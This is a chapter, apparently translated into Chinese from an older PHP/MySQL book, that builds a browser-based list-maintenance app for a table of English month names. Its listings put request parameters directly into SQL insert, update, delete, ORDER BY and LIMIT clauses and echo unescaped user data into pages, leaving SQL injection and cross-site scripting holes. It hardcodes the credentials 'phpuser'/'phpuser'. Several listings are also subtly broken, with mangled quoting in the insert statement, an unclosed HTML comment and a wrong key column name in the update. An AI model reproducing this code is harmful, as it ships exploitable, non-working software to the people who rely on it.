大多数数据库引擎（包括 PHP）提供了多种数据类型可供选择。但是，我建议使用最少数量的数据类型，以避免在一段时间后重新接触项目时感到困惑。我推荐使用 `VARCHAR`、`INTEGER` 和 `DATE` 数据类型。如果您的项目涉及大量记录（超过 50,000 条）或有特殊的性能需求，那么您需要更仔细地研究字段类型这个主题。

在介绍完数据库基础之后，我们讨论了 SQL。SQL 代表结构化查询语言，可用于执行各种任务。您可以创建、删除和修改表和记录。

根据我的经验，SQL 的 `select` 语句是使用最广泛的语句。它的六个不同子句（`select`、`from`、`where`、`group by`、`order by` 和 `having`）也使其成为最复杂的语句：

- `select` 子句指定查询返回哪些字段。此外，您可以使用表达式来创建虚拟或计算字段。
- `from` 子句指定查询查看哪些表。
- 可选的 `where` 子句指定从哪些记录中获取信息。例如，如果您的查询只涉及房屋，则忽略与汽车相关的所有记录。
- 可选的 `group by` 子句指定如何聚合返回的记录。如果您按性别字段进行聚合，结果查询将最多有两条记录（假设您的表指的是*智人*）。
- 可选的 `order by` 子句指定如何对返回的记录集进行排序。
- 可选的 `having` 子句让您可以根据 `group by` 子句执行的聚合进行过滤。

最后，本章讨论了使用索引和自增字段。索引对字段进行预排序以提高查询时间。自增字段用于轻松创建唯一字段（或键）。

下一章“间奏曲二：维护列表”将展示许多先前讨论过的 SQL 语句的实际应用。您将看到 HTML、PHP 和 SQL 如何交互以创建基于浏览器的应用程序。

# 间奏曲二：维护列表

能够使用计算机维护列表非常有用。列表的内容无关紧要。从列表的角度来看，电子邮件地址和杂货物品是一样的。重要的是应保持一致的界面和完整的功能集。

本章创建一个列表维护应用程序，您可以根据不同的需求快速进行调整。在我从事计算机应用开发的 20 年里，我需要维护无数的列表，从默认值到月份名称再到员工姓名。如果您已经有一个易于配置的列表维护程序，您的程序员效率将大大提高。

## 列表维护规范

在开始任何项目之前，我的朋友 Tobe 建议应该制定一套规范。至少，一个包含要点的列表就足够了。以下是我的规范列表，以及一些实施注释：

-   在 `common.inc` 中添加自动连接到数据库的代码——此更改让您忘记应用程序的数据库连接部分，而专注于功能。

-   支持“插入记录”功能——此功能应向用户呈现一个表单和一个提交按钮。

-   支持“显示记录”功能——此功能应调用一个显示例程，该例程可以轻松修改以适应不同的表。例如，月份名称表可能只需要一个 `month_name` 字段，而杂货物品表至少需要物品名称和购买数量。

-   支持“删除记录”功能——应用程序应仅在要删除的记录中设置一个删除字段。应用程序还应能够取消删除记录。

-   支持“编辑记录”功能——此功能与显示功能一样，应调用一个编辑例程，该例程可以轻松修改以适应不同的表。

-   支持“克隆记录”功能——此功能从现有记录复制信息，并允许用户根据需要修改新记录。

## 创建连接代码

如果您检查第 5 章创建的脚本，您会发现实际连接数据库的工作仅由一行完成：

```php
$id_link = @mysql_connect('localhost', $username, $password);
```

因此，向 `common.inc` 添加连接代码只需在文件顶部添加以下几行代码：

```php
$hostname = 'localhost';
$username = 'phpuser';
$password = 'phpuser';

$id_link = @mysql_connect($hostname, $username, $password);
```

从现在起，只要 PHP 脚本包含 `common.inc` 文件，每次执行时都会建立数据库连接。

> PHP 提供了一个名为 `mysql_pconnect` 的函数，它可以在您的应用程序和数据库之间创建一个持久连接。持久连接可以节省 CPU 时间。然而，使用持久连接比我们在此介绍的要复杂一些，并且对于简单的应用程序来说并非必需。

**注意**

当您在 `common.inc` 文件中操作时，让我们添加将在本章其余部分讨论的数据库和表的变量：

```php
$dbname = 'php_book';
$tablename = 'english_month_names';
```

## 创建 phpuser 用户名

本书在数据库连接中使用 phpuser 用户名。如果您希望按照我的示例操作而无需修改任何代码，请从 Linux 命令行开始执行以下步骤：

```
$ mysql -u root -p
Enter password: <Enter your MySQL root password>
Welcome to the MySQL monitor.  Commands end with ; or \g.
mysql> use mysql;
```

数据库已更改

## 创建具有有限权限的用户名。

```
mysql> INSERT INTO
    ->   user
    -> (
    ->   host
    ->   ,user
    ->   ,password
    ->   ,select_priv
    ->   ,insert_priv
    ->   ,update_priv
    ->   ,delete_priv
    -> )
    -> VALUES (
    ->   'localhost'
    ->   ,'phpuser'
    ->   ,password('phpuser')
    ->   ,'Y'
    ->   ,'Y'
    ->   ,'Y'
    ->   ,'Y'
    -> );
```

查询正常，1 行受影响 (0.00 秒)

## 告诉 MySQL phpuser 可以访问哪个数据库。

```
mysql> INSERT INTO
    ->   db
    -> (
    ->   host
    ->   ,db
    ->   ,user
    ->   ,select_priv
    ->   ,insert_priv
    ->   ,update_priv
    ->   ,delete_priv
    -> )
    -> VALUES (
    ->   '%'
    ->   ,'php_book'
    ->   ,'phpuser'
    ->   ,'Y'
    ->   ,'Y'
    ->   ,'Y'
    ->   ,'Y'
    -> );
```

```
mysql> exit
Bye
```

```
$ # 强制 MySQL 重新加载权限表。
$ /usr/local/mysql/bin/mysqladmin -u root -p reload
输入密码: <输入你的 MySQL root 密码>
```

完成这些步骤后，phpuser 已经创建好并可以使用了。

## 创建数据库表

由于本章创建的列表维护应用是通用的，我们表的实际字段并不重要。我选择使用一个字段来表示英文的月份名称。

运用第 6 章 “数据库和 SQL” 中的一些技巧，让我们创建一个数据库表，该表必须包含以下管理字段：

- **key_english_month_names** — 一个自动递增的键字段。此字段确保表中的每条记录都是唯一的。
- **dte_created** — 创建日期字段。此字段存储记录创建的日期和时间。
- **dte_updated** — 修改日期字段。此字段存储记录最后更新的日期和时间。
- **flg_deleted** — 删除标志字段。当此字段的值为 `Y` 时，表示记录已被删除。当其值为 `N` 时，记录可用。

管理字段确定后，就可以指定存储表信息的字段了：

- **str_month_name** — 一个可变长度的字符字段。此字段存储月份的英文名称。

可以使用以下步骤在 php_book 数据库中创建 english_month_names 表：

```
$ mysql -u phpuser -p
输入密码: phpuser
mysql> use php_book;
数据库已更改
mysql> CREATE TABLE english_month_names (
    ->   key_english_month_names int(10)
    ->     unsigned DEFAULT '0' NOT NULL auto_increment,
    ->   dte_created datetime DEFAULT '0000-00-00 00:00:00' NOT NULL,
    ->   dte_updated datetime DEFAULT '0000-00-00 00:00:00' NOT NULL,
    ->   flg_deleted enum('Y','N') DEFAULT 'N' NOT NULL,
    ->   str_month_name varchar(50) NOT NULL,
    ->   PRIMARY KEY (key_english_month_names)
    -> );
ERROR 1044: Access denied for user:
'phpuser@localhost' to database 'php_book'
```

这当然没有按计划进行，对吧？哪里出错了？当本章前面创建 phpuser 用户时，并没有授予该用户足够的权限来创建表。这恰好说明 MySQL 的安全机制是有效的！

退出 mysql 工具，并使用 root 用户名重新运行上述步骤。

## 修订 menu.php3 文件

第 5 章中的 menu.php3 文件只显示了 “创建数据库连接” 作为其唯一选项。由于数据库连接现在总是在 common.inc 中建立，因此该选项不再需要。将其替换为以下几行：

```
<li>
  <a href="english_month_names.php3">
    维护英文月份名称
  </a>
</li>
```

## 插入记录

尽管最初可能认为从显示记录功能开始列表应用是合乎逻辑的，但我们需要先编程插入记录功能，仅仅因为表中还没有记录！

编程插入记录功能需要以下步骤：

1. 创建一个 HTML 表单，让用户输入相关信息。
2. 创建 SQL 代码以插入表单信息。

## 定义插入表单

清单 7.1 展示了实现第一步（插入表单）的 `english_month_names.php3` 文件，图 7.1 展示了插入表单。

### 清单 7.1 english_month_names.php3，版本 1

```
<?php
  // 指定正在维护哪个表。
  $table_name = 'english_month_names';
  require('common.inc');
  affy_header("记录维护: $table_name");
?>

<H1>
  记录维护:&nbsp;
  <font color="green">
    <?php echo $table_name; ?>
  </font>
</H1>

<?php
  require($table_name . '_insert_form.inc');

  affy_footer();
?>
```

让我们在继续第二步之前回顾一下这个文件。脚本以初始化 `$table_name` 开始。由于列表维护应用需要可定制以支持不同的表，因此不应该硬编码太多内容。应尽可能使用变量，以便快速配置应用程序。

你会记得，common.inc 文件在页面执行时连接到数据库。它还定义了 affy_header 和 affy_footer 例程。这些例程只是开始和结束网页。

接下来是页面的标题。在本例中，标题为“记录维护: english_month_names”。表名以绿色显示，增添了一丝趣味。

HTML 表单的代码存储在一个名为 english_month_names_insert_form.inc 的文件中。由于文件名以表名开头，因此可以在 require 语句中使用 `$table_name` 变量。这项技术进一步实现了易于配置的目标。将来，如果你需要支持名为 french_month_names 的表，你只需更改 `$table_name` 变量并创建一个名为 french_month_names_insert_form.inc 的文件，即可为新表配置应用程序。清单 7.2 展示了定义插入表单的 HTML 代码。

### 备注

让我花点时间谈谈文件名：我喜欢长文件名。越长越好。我使用前缀，以便在按名称对目录排序时将相关文件分组在一起。而且我使用大量文件。我的一个项目拥有超过 100 个文件并不少见。我就是不喜欢去猜测哪个文件包含我正在寻找的功能。当我看到一个名为

english_month_names_action_handler_insert.inc 的文件时，我确切地知道它的作用。

### 清单 7.2 english_month_names_insert_form.inc

```
<form action="<?PHP echo $PHP_SELF ?>" method="post">
  <input type="hidden" name="action" value="insert">
  英文月份名称:&nbsp;
  <input type="text" name="str_month_name">
  <input type="submit" value="添加">
</form>
```

用户填写输入表单并点击“添加”后，字段信息会发送到表单标签的 action 属性指定的任何脚本。请注意，上面的表单使用了 `$PHP_SELF` 变量。此变量由 PHP 引擎初始化为包含正在执行的脚本的名称。在本例中，其值为 `english_month_names.php3`。使用 `$PHP_SELF` 意味着避免了可能出现的配置问题。你可以将此表单重用在另一个脚本中，例如 `french_month_names.php3`，而无需任何修改。

表单使用一个隐藏值来告诉表单处理脚本要执行哪个操作。在本例中，该操作是 “insert”。

## 处理插入操作

表单信息由 common.inc 脚本存储在 `$arr_request` 数组中。我们可以使用相同的“使用 `$table_name` 进行 require”的技术来处理请求的操作。在 english_month_names.php3 中的 `require('common.inc');` 行之后添加以下代码行：

```
require($table_name . '_actions.inc');
```

清单 7.3 展示了执行实际“插入”操作的脚本。

### 清单 7.3 english_month_names_actions.inc

```
<?php
if ($arr_request['action'] == 'insert') {

  // 使用 24 小时制确定当前日期和时间，
  // 格式为 YYYY-MM-DD HH:MM:SS。
  $current_date = date('Y-m-d H:i:s');

  // 动态创建插入记录所需的 SQL。
  // 键字段的值将由 MySQL 自动生成。
  // 而 flg_deleted 的值默认为 'N'，
  // 因此不需要指定。

  $str_sql = "
    insert into
      $table_name
    (
      dte_created
      ,dte_updated
      ,str_month_name
    )
```


```
values
(
    '$current_date'
    ,'$current_date'
    ,'' . $arr_request['str_month_name'] . ''
)
";

$result = mysql_db_query($dbname, $str_sql, $id_link);
if (!$result) {
    affy_error_exit('SQL Insert Execution has failed.');
}

echo '<p>The row has been inserted.</p>';
echo "<p>Click <a href=\"$PHP_SELF\">Here</a> ";
echo 'for Further Table Maintenance.</p>';

exit();
}
?>
```

该脚本的执行流程很直接。如果请求的操作是“插入”，则确定当前日期，生成并执行一条 SQL 语句，然后脚本结束。

## 探究动态 SQL 构建

由于引号要求，生成动态 SQL 语句可能有点棘手。让我们构建一个简化的插入语句：

-   创建用于初始化 `$str_sql` 变量的框架。只需两个引号即可初始化一个空字符串：

```
$str_sql = "
";
```

-   添加 SQL 插入语句的框架。目前还不需要额外的引号。

```
$str_sql = "
insert into
    $table_name
    (
        <field_list>
    )
values
(
  <field_values>
)
";
```

-   添加 `dte_created` 字段名及其值。现在需要变量插值和一组单引号。由于日期值是字符串（例如，1999-08-21 12:23:21），它需要放在单引号内；这是 SQL 的要求，而不是 PHP 的要求。

```
$str_sql = "
  insert into
    $table_name
  (
    dte_created
  )
  values
  (
    '$current_date'
  )
";
```

-   添加 `str_month_name` 字段名及其值。这时会出现额外的复杂性，因为月份名称位于数组元素内。变量插值不适用于数组元素。相反，需要用双引号结束 `$str_sql` 的第一部分，并使用连接运算符将第一部分与第二部分（数组元素）链接起来。`$str_sql` 的第三部分包含结尾的单引号和 SQL 语句的其余部分。

```
$str_sql = "
  insert into
    $table_name
  (
    dte_created
    ,str_month_name
  )
  values
  (
    '$current_date'
    ,'" . $arr_request['str_month_name'] . "'
  )
";
```

你可以通过使用以下技术来避免变量插值问题。具体使用哪种技术取决于你独特的编码风格。

```
// 提前确定数组元素
// 并将值保存在标量变量中。
$str_month_name = $arr_request['str_month_name'];

// 使用标量变量代替数组引用。
$str_sql = "
    ...
    ,'$str_month_name'
    ...
";
```

## 验证插入

创建处理插入信息的 SQL 很好，但如果没有在表维护页面上提供一些反馈，用户如何知道插入是否成功？我们可以在表中显示记录数量，同时避免处理“显示记录”功能。

在 `english_month_names.php3` 中 `require ($table_name . '_insert_form.inc');` 行之后，立即添加以下代码行：

```
// 选择表中的所有记录。
$str_sql = "
    select
        *
    from
        $table_name
    where
        flg_deleted = 'N'
";

$result = mysql_db_query($dbname, $str_sql, $id_link);
if (! $result) {
    affy_error_exit('SQL Select Execution has failed.');
}

$number_of_rows = @mysql_num_rows($result);
if ($number_of_rows < 1) {
    echo '<p>There are no records in this table.</p>';
}
else {
    echo "<p>There are $number_of_rows record(s)";
    echo " in this table.</p>";
}
```

## 显示记录

用于显示记录的方法可以很简单（每条记录一行），也可以更复杂（每条记录多行）。然而，本节中开发的代码足够灵活，可以处理这两种情况。

让我们从简单地每行显示一条记录开始。以下代码可以添加到 `english_month_names.php3` 中，紧跟在显示表中记录数量的代码之后：

```
<ul>
<table border="1" cellpadding="3" cellspacing="0">
  <?php
  require($table_name . '_dsp_1_rec_hdr.inc');

  for ($iindex = 0; $iindex < $number_of_rows; $iindex++)
{
     $record = @mysql_fetch_object($result);
     require($table_name . '_dsp_1_rec.inc');
  }

  ?>
</table>
</ul>
```

需要混合使用 HTML 和 PHP 来完成显示任务。首先，使用 HTML 开始一个表格标签。然后，使用 require 函数包含表头显示代码。使用 for 语句遍历 select 语句返回的记录。....dsp_1_rec 文件中的代码将每条记录显示为一行 HTML 表格行。最后，关闭 HTML 表格。

类和对象的主题将在第 10 章“面向对象”中介绍。然而，即使不完全理解其工作原理，也可以使用面向对象技术。`$record` 变量类似于一个数组。数据库表中的每个字段都是 `$record` 的一个元素。要访问字段值，请使用 `$record->field_name` 表示法。`str_month_name` 的值是 `$record->str_month_name`。

清单 7.4 包含用于显示 HTML 表头行的标签。

### 清单 7.4 english_month_names_dsp_1_rec_hdr.inc

```
<tr>
  <th>Month Name</th>
  <th>Last Modified</th>
</tr>
```

清单 7.5 包含用于显示单条记录的标签和 PHP。

### 清单 7.5 english_month_names_dsp_1_rec.inc

```
<tr>
  <td>
    <?php echo $record->str_month_name ?>
  </td>
  <td>
    <?php echo $record->dte_updated ?>
  </td>
</tr>
```

图 7.2 显示了添加一条记录后的数据库表。


> 图 7.2 显示一条记录。

在继续之前，请为其余 11 个月添加记录。图 7.3 显示了全年十二个月的记录。

## 添加排序功能

请注意正在显示的记录顺序；它们是按字母顺序排列的。通常，月份按时间顺序显示：一月、二月等等。为了适应非标准排序，通常会在数据库表中添加一个 `sort_order` 整数字段。我将把这个选项留给你作为练习。

显示记录的基本要求已经满足。但我们仍然有一些明显的改进要做。让我们首先解决*排序*的概念。让用户能够按月份名称或修改日期排序是一个有价值的改进。请按照以下步骤为我们的初步应用程序添加排序功能。

1.  将 `english_month_names.php3` 中的 `$str_sql` 初始化行更改为以下内容：

```
if (strlen($sort_field) == 0) {
    $str_sql = "
        select * from $table_name where flg_deleted='N'
    ";
}
else {
    $str_sql = "
        select *
        from $table_name
        where flg_deleted='N'
        order by $sort_field $sort_direction
    ";
}
```

2.  将 `english_month_names_dsp_1_rec_hdr.php3` 文件中的所有 HTML 替换为以下内容：

```
<?php  // english_month_names_dsp_1_rec_hdr.php3

$act    = "action=set_sort_field";
$sort   = "sort_field=str_month_name";
$asc    = "sort_direction=ASC";
$desc   = "sort_direction=DESC";
?>

<tr>
  <th>
    Month Name&nbsp;
    <font size="1">
    <?php
        echo "<a href=\"$PHP_SELF?$act&&$sort&&$asc\">A</a>";
    ?>
    &nbsp;
    <?php
        echo "<a href=\"$PHP_SELF?$act&&$sort&&$desc\">D</a>";
    ?>
    </font>
  </th>

<?php
$sort = "sort_field=dte_updated";
?>

  <th>
    Last Modified&nbsp;
```

```
<font size="1">
  <?php
    echo "<a href=\"$PHP_SELF?$act&$sort&$asc\">A</a>";
  ?>
  &nbsp;
  <?php
    echo "<a href=\"$PHP_SELF?$act&$sort&$desc\">D</a>";
  ?>
</font>
</th>
</tr>
```

3.  在 `english_month_names_actions.php3` 文件中，在第一个 `<?php` 行之后立即添加以下行：

```
if ($arr_request['action'] == 'set_sort_field') {
  $sort_field = $arr_request['sort_field'];
  $sort_direction = $arr_request['sort_direction'];
}
```

4.  在 `english_month_names_dsp_1_rec_hdr.php3` 文件中，将 `Month Name&nbsp;` 行替换为：

```
<?php
if ($sort_field == 'str_month_name') {
  echo '<font color="red">Month Name&nbsp;</font>';
}
else {
  echo 'Month Name&nbsp;';
}
?>
```

5.  在 `english_month_names_dsp_1_rec_hdr.php3` 文件中，将 `Last Modified&nbsp;` 行替换为：

```
<?php
if ($sort_field == 'dte_updated') {
  echo '<font color="red">Last Modified&nbsp;</font>';
}
else {
  echo 'Last Modified&nbsp;';
}
?>
```

现在你可以在 Web 浏览器中重新加载 `english_month_names.php3` 文件。点击 “A” 和 “D” 链接。记录应该会按升序和降序重新显示。
```


如果你能将列表维护应用程序想象成一串命令，那么上述五个步骤就是精确地间隔插入到该字符串中以添加功能。步骤1更新了用于选择要显示记录的SQL语句。步骤2更新了用于显示HTML表格的包含文件。步骤3添加了根据用户请求初始化变量的代码。而步骤4和步骤5则使当前排序的列名以红色显示。

本书中每一行代码都需要控制在60个字符或更少，以避免自动换行。这迫使我们像步骤2那样使用临时变量。具体来说，我指的是这几行：

```
$act   = "action=set_sort_field";
$sort  = "sort_field=str_month_name";
$asc   = "sort_direction=ASC";
echo "<a href=\"$PHP_SELF?$act&$sort&$asc\">A</a>";
```

当PHP处理类似`file.php3?variable1=value&variable2=value`的URL请求时，这些变量会被放入`$HTTP_GET_VARS`数组中。而`common.inc`脚本反过来又将这些数组元素复制到`$arr_request`数组中。第5章提供了此技术背后的原理。

## 每次显示五条记录

限制网页上显示的记录数量通常是个好主意，因为10,000条记录在一个页面上可能需要很长时间来显示。实现此功能需要哪些条件？

-   用于保存要显示的初始记录和每页显示记录数的变量。
-   用于将URL信息复制到上述变量中的初始化代码。
-   用于跟踪数据库中的记录数和页面上显示的记录数的变量。如果网页试图显示5条记录，但数据库表只有4条，或者数据库表有12条记录而我们显示的是第3页，那么显示的记录将少于5条。
-   用于计算上一组五条记录起始记录的代码，以及用于计算下一组五条记录起始记录的代码。
-   用于显示“上5条”和“下5条”链接供用户点击的代码。

幸运的是，只需要修改`english_month_names.php3`文件。然而，所需的更改足以证明需要展示整个文件，如清单7.6所示。

### 清单 7.6 english_month_names.php3，版本2

```
<?php // english_month_names.php3

  // Specify which table is being maintained.
  $table_name = 'english_month_names';

  // NEW: Initialize variables to their default
  // values.
  $number_records_to_display = 5;
  $initial_record = 0;
  $sort_field = 'str_month_name';
  $sort_direction = 'ASC';

  require('common.inc');

  // NEW: If the initial_record URL-based value exists,
  // then override default values with the URL-based
  // values.
  if (strlen($arr_request['initial_record'])) {
    $initial_record = $arr_request['initial_record'];
    $sort_field     = $arr_request['sort_field'];
    $sort_direction = $arr_request['sort_direction'];
  }

  require($table_name . '_actions.inc');
  affy_header("Record Maintenance: $table_name");
?>
```

```
<H1>
  Record Maintenance:&nbsp;
  <font color="green">
    <?php echo $table_name; ?>
  </font>
</H1>
```

```
<?php
  require($table_name . '_insert_form.inc');

  // NEW: This SQL is used to initialize the
  // $number_of_records variable.
  $str_sql_all = "
```

```
select count(*) as number_of_records
from $table_name
where flg_deleted='N'
";
```

```
$result =
  mysql_db_query($dbname, $str_sql_all, $id_link);

if (!$result) {
  affy_error_exit('SQL Select Execution has failed.');
}
```

```
// NEW: Turn the returned row into an object. Then
// initialize our variable from the object.
$record = @mysql_fetch_object($result);
$number_of_records = $record->number_of_records;
```

```
// NEW: The LIMIT clause is specific to MySQL. It lets
// you specify which record to start the result set with
// and how many to return.
if (strlen($sort_field) == 0) {
  $str_sql = "
    select *
    from $table_name
    where flg_deleted='N'
    limit $initial_record, $number_records_to_display
  ";
}
else {
  $str_sql = "
    select *
    from $table_name
    where flg_deleted='N'
    order by $sort_field $sort_direction
    limit $initial_record, $number_records_to_display
  ";
}
```

```
$result = mysql_db_query($dbname, $str_sql, $id_link);
if (!$result) {
  affy_error_exit('SQL Select Execution has failed.');
}

$number_of_records_on_current_page =
  @mysql_num_rows($result);

if ($number_of_records < 1) {
  echo '<p>There are no records in this table.</p>';
}
```

```
else {
    // NEW: Determine the starting position of the next
    // set of records to display.
    $next_index =
    $initial_record + $number_records_to_display;

    // NEW: If the next position is larger than the
    // number of records in the database table, then
    // reset the next position to the end of the
    // database table.
    if ($next_index > $number_of_records) {
      $next_index = $number_of_records;
    }

    // NEW: Display a message so the user knows their

    // location in the database table. The messages says
    // "Displaying X to Y of Z records."
    $t1 = $initial_record + 1;
    echo "<p>Displaying $t1 to $next_index ";
    echo "of $number_of_records record(s)</p>";

    // NEW: Determine the starting position of the
    // previous set of records.
    $prev_index =
      $initial_record - $number_records_to_display;

    // NEW: The starting position can't be less than
    // zero.
    if ($prev_index < 0) {
      $prev_index = 0;
    }
}

?>
```

```
<ul>
<!--
  NEW: The following HTML is slightly convoluted which is
  why I've left the border attribute set to 1. There is
  an outer table which two rows. The top row holds the
  table that displays Prev and Next links while the
  bottom row holds the table that displays the records.
-->
<table border="1">
<tr><td>
  <!--
    NEW: Since this "navigation" table has only 15
    characters or so of text it isn't as wide as
    the "records" table. Therefore, the width
```

```
attribute is needed. Notice the two cells each have different alignments.

<!--
<table width="100%"><tr>
  <td align="left" width="50%">
<?php
  // NEW: Display a link for the previous set
  // of records.
  if ($initial_record != 0) {
    $t1 = "initial_record=$prev_index";
    $sort = "sort_field=$sort_field";
    $asc  = "sort_direction=$sort_direction";
    echo "<a href=\"$PHP_SELF?$t1&$sort&$asc\">";
    echo "Prev $number_records_to_display</a>";
  }
?>
  </td>
  <td align="right" width="50%">
<?php
  // NEW: Display a link for the next set
  // of records.
  if ($next_index != $number_of_records) {
    $t1 = "initial_record=$next_index";
    $sort = "sort_field=$sort_field";
    $asc  = "sort_direction=$sort_direction";
    echo "<a href=\"$PHP_SELF?$t1&$sort&$asc\">";
    echo "Next $number_records_to_display</a>";
  }
?>
  </td>
</tr></table>
</td></tr>
<tr><td>

<table border="1" cellpadding="3" cellspacing="0">
<?php
require($table_name . '_dsp_l_rec_hdr.inc');

for ($iindex = 0;
     $iindex < $number_of_records_on_current_page;
     $iindex++) {

  $record = @mysql_fetch_object($result);
  require($table_name . '_dsp_l_rec.inc');

}
?>
</table>
```

```
</td></tr></table>
</ul>
```

```
<?php
  affy_footer();
?>
```

## 删除记录

在经历了显示记录的复杂性之后，你可能会认为删除记录这样的简单任务会轻而易举。每条显示的记录都需要一个文本链接（“删除”听起来不错）来执行`delete_record`操作。但如果你还记得，上一章讨论了使每条记录唯一的重要性。现在我们的远见发挥了作用。关键字段可以传递到URL中，让`delete_record`代码知道要删除哪条记录。

你现在可能明白了，要完成删除记录的操作，需要更新两个文件：显示每条记录的文件（以添加文本链接）和操作处理文件。按照以下步骤进行更新：

- 1. 将以下几行添加到`english_month_names_dsp_1_rec.inc`的开头：

```
<?php  // english_month_names_dsp_1_rec.inc

  $key   = $record->key_english_month_names;
  $delete = "$PHP_SELF?action=delete_record&key=$key";
?>
```

- 2. 在`english_month_names_dsp_1_rec.inc`中的每个月份名称单元格（第一个`td`标签）内添加以下几行：

```
<font size="1">
  <a href="<?php echo $delete; ?>">Delete</a>
</font><br>
```

- 3. 将以下几行添加到`english_month_names_actions.php3`中：

```
if ($arr_request['action'] == 'delete_record') {

    $key = $arr_request['key'];

    $str_sql = "
      delete from
```


 ```
$table_name
where
    key_$table_name = $key
";

$result = mysql_db_query($dbname, $str_sql, $id_link);
if (!$result) {
    affy_error_exit('SQL Delete Execution has failed.');
}

echo '<p>The row has been deleted.</p>';
echo "<p>Click <a href=\"$PHP_SELF\">Here</a> ";
echo 'for Further Table Maintenance.</p>';

exit();
```

生成的网页如图 7.4 所示。



**图 7.4** 显示带有删除选项的记录。

此处实现的删除功能忽略了 `_flg_deleted` 字段的可能性。实现一个“回收站”功能，让用户可以撤销删除记录，这留给读者作为练习。

## 编辑记录

编辑记录的任务看似困难，其实不然。最困难的部分是创建编辑表单。编辑一条记录需要分为两步：第一步是从用户收集信息（`edit_record` 动作），第二步是创建更新 SQL 语句（`update` 动作）。图 7.5 展示了用于编辑记录的 HTML 表单。

- 1. 编辑 `english_month_names_dsp_1_rec.inc`，以添加一个编辑文本链接。将以下行添加到初始化部分：

```
$edit = "$PHP_SELF?action=edit_record&key=$key";
```

并在删除文本链接之后添加这一行：

```
<a href="<?php echo $edit; ?>">Edit</a>
```

- 2. 将以下两个动作添加到 `english_month_names_actions.inc` 文件：

```
if ($arr_request['action'] == 'edit_record') {

    $key = $arr_request['key'];

    $str_sql = "
      select *
      from $table_name
      where key_$table_name = $key
    ";

    $result = mysql_db_query($dbname, $str_sql, $id_link);
    if (!$result) {
        affy_error_exit('SQL Select Execution has failed.');
    }

    $record = @mysql_fetch_object($result);
    $str_month_name = $record->str_month_name;

    // The following is one big echo statement
    // that displays the edit Web page.
```

```
echo "
<H1>
  Record Maintenance:&nbsp;
  <font color=\"green\">$table_name</font>
  </h1>
  <H2>
  Editing Record:&nbsp;
  <font color=\"green\">$key</font>
  </h2>

  <form action=\"$PHP_SELF\" method=\"post\">
  <input type=\"hidden\"
    name=\"action\" value=\"update\">
  <input type=\"hidden\" name=\"key\" value=\"$key\">
  <table cellpadding=\"3\">
  <tr>
    <td>Month Name:</td>
  <td>
    <input
      type=\"text\"
      name=\"str_month_name\"
      value=\"$str_month_name\">
  </td>
  </tr>
  <tr><td colspan=\"2\">
    <input type=\"submit\" value=\"Update\">
  </td></tr>
  </table>
  </form>
";

  exit();
}
```

```
if ($arr_request['action'] == 'update') {

    $key          = $arr_request['key'];
    $str_month_name = $arr_request['str_month_name'];
    $current_date  = date('Y-m-d H:i:s');

    $str_sql = "
    update
      $table_name
    set
      str_month_name = '$str_month_name'
      ,dte_updated = '$current_date'
    where
      key_table_name = $key
    ";
}
```

```
$result = mysql_db_query($dbname, $str_sql, $id_link);
if (!$result) {
  affy_error_exit('SQL Delete Execution has failed.');
}

echo '<p>The row has been updated.</p>';
echo "<p>Click <a href=\"$PHP_SELF\">Here</a> ";
echo 'for Further Table Maintenance.</p>';

exit();
}
```



图 7.5 编辑表单。

## 克隆记录

我们需要为该应用程序添加的最后一个功能是克隆记录。克隆记录时，所选记录中的所有信息都会被复制到新记录中，并为用户提供一个表单，以便根据需要更改信息。处理月份名称时，这个功能毫无用处；但对于包含 20 个字段的记录（例如客户信息），节省的时间可能非常可观。

克隆所涉及的许多子任务已经完成。例如，`edit_record` 动作已经包含处理基于 URL 的变量以及从数据库中选择请求记录的代码。由于 `clone_record` 动作也需要这些信息，因此创建一个 PHP 函数可以实现代码复用：

### 清单 7.7 `get_record_info` 函数，动作文件的一部分

```
function get_record_info() {

    // Use the global keyword to let this function
    // access variables that have Web-page scope.
    //
    global $dbname, $id_link, $table_name, $arr_request;

    // Declare some variables as global so information
    // can be easily passed from this function to
    // the Web page.
    //
    global $key, $str_month_name;

    $key = $arr_request['key'];

    $str_sql = "
      select *
      from $table_name
      where key_$table_name = $key
    ";

    $result =
      mysql_db_query($dbname, $str_sql, $id_link);

    if (! $result) {
      affy_error_exit('SQL Select Execution failed.');
    }

    // Turn the record into an object.
    $record = @mysql_fetch_object($result);

    // Set the global variable so it can be
    // used by the Web page.

    $str_month_name = $record->str_month_name;
}
```

`clone_record` 动作需要显示一个表单，供用户在需要时更改信息。这段代码也可以从 `edit_record` 动作中“借用”并封装成一个函数，如清单 7.8 所示：

### 清单 7.8 `display_form` 函数，动作文件的一部分

```
function display_form($key, $str_month_name, $action) {
    global $PHP_SELF;
```

```
echo "<form action=\"$PHP_SELF\"";;
echo '  method="post">';
echo '<input type="hidden"';
echo '  name="action"';
echo "  value=\"$action\">";
echo '<input type="hidden" name="key\\"';
echo "value=\"$key\">";
echo '<table cellpadding=\"3\">';
echo '  <tr>';
echo '    <td>Month Name:</td>';
echo '    <td>';
echo '      <input';
echo '        type="text"';
echo '        name=\"str_month_name\"';
echo "        value=\"$str_month_name\">";
echo '    </td>';
echo '  </tr>';
echo '  <tr><td colspan=\"2\">';
echo '    <input type="submit" value="Submit">';
echo '  </td></tr>';
echo '</table>';
echo '</form>';
}
```

使用 `echo` 函数显示 HTML 充其量说是笨拙的，尤其在书籍页面宽度有限的情况下更是如此。不过，如果你花时间理解 `display_form` 函数，就会发现它显示的是一个 HTML 表单。该表单有两个隐藏字段：一个隐藏字段指定点击提交（Submit）按钮时执行哪个动作；另一个隐藏字段指定键值。

清单 7.9 中展示的最后一个函数也可以从 `edit_record` 动作中提炼出来，即 `display_heading` 函数。该函数只是显示 H1 和 H2 标签，为用户提供一些上下文。

### 清单 7.9 `display_heading` 函数，动作文件的一部分

```
function display_heading($table_name, $key, $activity) {
  echo "
  <H1>
  Record Maintenance:&nbsp;
  <font color=\"green\">$table_name</font>
  </h1>
  <H2>
  $activity Record:&nbsp;
  <font color=\"green\">$key</font></h2>
  ";
```

`$activity` 参数让用户知道他们正在执行的是编辑还是克隆操作。

定义了这些函数后，`clone_record` 动作可以定义如下：

```
if ($arr_request['action'] == 'clone_record') {
    get_record_info();
    display_heading($table_name, $key, "Cloning");
    display_form($key, $str_month_name, "insert");
    exit();
}
```

而 `edit_record` 动作如下所示：

```
if ($arr_request['action'] == 'edit_record') {
    get_record_info();
    display_heading($table_name, $key, "Editing");
    display_form($key, $str_month_name, "update");
    exit();
}
```

